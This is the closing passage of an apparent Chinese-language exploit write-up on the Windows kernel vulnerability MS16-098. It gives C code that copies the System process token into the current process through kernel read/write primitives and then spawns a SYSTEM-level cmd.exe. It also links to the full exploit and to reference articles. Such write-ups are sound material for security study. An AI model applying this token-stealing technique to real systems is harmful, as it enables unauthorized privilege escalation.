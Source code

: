 最后把 System 进程的 Token 替换到当前进程实现提权。

```c
// get System EPROCESS
ULONG64 SystemEPROCESS = PsInitialSystemProcess();
ULONG64 CurrentEPROCESS = PsGetCurrentProcess();
ULONG64 SystemToken = 0;
// read token from system process
ReadFromAddress(SystemEPROCESS + gConfig.TokenOffset, (BYTE *)&SystemToken, 0x8);
// write token to current process
ULONG64 CurProccessAddr = CurrentEPROCESS + gConfig.TokenOffset;
SetAddress((BYTE *)&CurProccessAddr);
WriteToAddress((BYTE *)&SystemToken);
// Done and done. We're System :)
system("cmd.exe");
```

![]({{site.baseurl}}/images/2018-10-17/system.png)

利用代码可以在 [github](https://github.com/sensepost/ms16-098) 上找到。

# Reference

- [https://www.secureauth.com/blog/ms16-039-windows-10-64-bits-integer-overflow-exploitation-by-using-gdi-objects](https://www.secureauth.com/blog/ms16-039-windows-10-64-bits-integer-overflow-exploitation-by-using-gdi-objects)

- [https://www.secureauth.com/blog/abusing-gdi-for-ring0-exploit-primitives](https://www.secureauth.com/blog/abusing-gdi-for-ring0-exploit-primitives)

- [https://github.com/sensepost/ms16-098](https://github.com/sensepost/ms16-098)

- [http://repwn.com/archives/26/](http://repwn.com/archives/26/)

- [http://www.slideshare.net/PeterHlavaty/windows-kernel-exploitation-this-time-font-hunt-you-down-in-4-bytes](http://www.slideshare.net/PeterHlavaty/windows-kernel-exploitation-this-time-font-hunt-you-down-in-4-bytes)